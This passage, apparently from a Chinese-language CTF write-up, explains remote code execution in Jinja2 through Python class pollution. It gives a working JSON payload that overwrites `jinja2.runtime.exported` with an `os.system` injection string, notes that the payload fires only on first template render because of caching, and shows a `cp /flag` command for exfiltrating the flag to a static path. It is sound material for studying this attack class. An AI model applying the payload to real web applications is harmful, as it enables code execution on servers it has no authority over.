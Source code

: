 该逻辑会向输出流写入一段拼接的代码（输出流中代码最终会被编译进而执行），注意其中的`exported_names`变量，该变量为`.runtime`模块（即`Lib/site-packages/jinja2/runtime.py`）中导入的变量`exported`和`async_exported`组合后得到，这就意味着我们可以通过污染`.runtime`模块中这两个变量实现RCE。由于这段逻辑是模板文件解析过程中必经的步骤之一，所以这就意味着只要渲染任意的文件均能通过污染这两属性实现RCE。

```html
<html>
<h1>Try To RCE Me</h1>
<body>    
</body>
</html>
```

```python
{
    "__init__": {
        "__globals__": {
            "__loader__": {
                "__init__": {
                    "__globals__": {
                        "sys": {
                            "modules": {
                                "jinja2": {
                                    "runtime": {
                                        "exported": [
                                            "*;__import__('os').system('calc');#"
                                        ]
                                    }
                                }
                            }
                        }
                    }
                }
            }
        }
    }
}
```

但是需要注意插入`payload`的位置是AST的根部分，是作为模板编译时的处理代码的一部分，同样受到模板缓存的影响，也就是说这里插入的`payload`只会在模板在第一次访问时触发

若要读取flag，可将其写入`/static/flag`（`cp /flag ./static/flag`）
